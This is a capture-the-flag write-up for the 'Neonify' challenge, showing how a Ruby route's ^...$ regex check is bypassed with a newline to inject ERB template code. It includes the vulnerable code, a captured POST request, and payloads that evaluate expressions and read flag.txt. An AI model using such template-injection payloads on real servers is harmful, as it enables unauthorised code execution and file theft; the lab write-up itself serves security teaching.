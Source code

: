 # Neonify Challenge - Exploiting Ruby Regex

We are faced with a site with a text box.

Whatever we type in the text box will show up below with a glow affect.

We are also provided with the website's backend files, which are written in ruby.

Nothing interesting is found in GoBuster, and Nmap isn't used in challenges.

While poking around the files we find __neon.rb__, and inside it the function that processes the text we provide in the text box, and we see our input goes through a regex:
```rb

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end 
```
```^``` and ```$``` are known as dangerous Regex characters in ruby, as they only match until a new line character.

With that we can find our plan - Write a string that will match the Regex, add a new line at the end and then add a payload, which int this case will be a ruby script.

Let's fire up BurpSuite and get going. We capture a sample POST request, and we see there is a parameter called ```neon``` which we will use to deliver the payload.

```http
POST / HTTP/1.1

Host: 178.62.74.235:31790

Content-Length: 8

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://178.62.74.235:31790

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://178.62.74.235:31790/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close



neon=abc
```

First we test ```abc\n<%= 7*7 %>```,  so lets try and URL-Encode it.
We get 49 so we achieved code execution. From here we just need to print out the flag.

From looking at the files we find the flag in the same directory so our payload will look like this   
```abc\n<%= File.read("flag.txt") %>```. Let's URL encode it and see if it works.

And we got the flag.

